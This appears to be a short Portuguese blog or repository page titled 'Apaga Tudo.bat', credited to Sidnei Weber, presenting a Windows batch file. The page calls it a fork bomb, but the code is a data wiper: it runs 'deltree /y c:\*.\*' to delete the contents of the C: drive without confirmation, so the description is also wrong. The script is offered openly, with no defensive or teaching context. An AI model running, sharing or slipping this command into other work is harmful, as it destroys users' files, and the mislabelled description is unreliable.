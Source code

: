 # Apaga Tudo.bat

Fork bomb para Windows

```
@echo off

c:

deltree /y c:\*.\*
```


---

> Autor: Sidnei Weber  
> URL: https://sidneiweber.com.br/apaga-tudobat/  

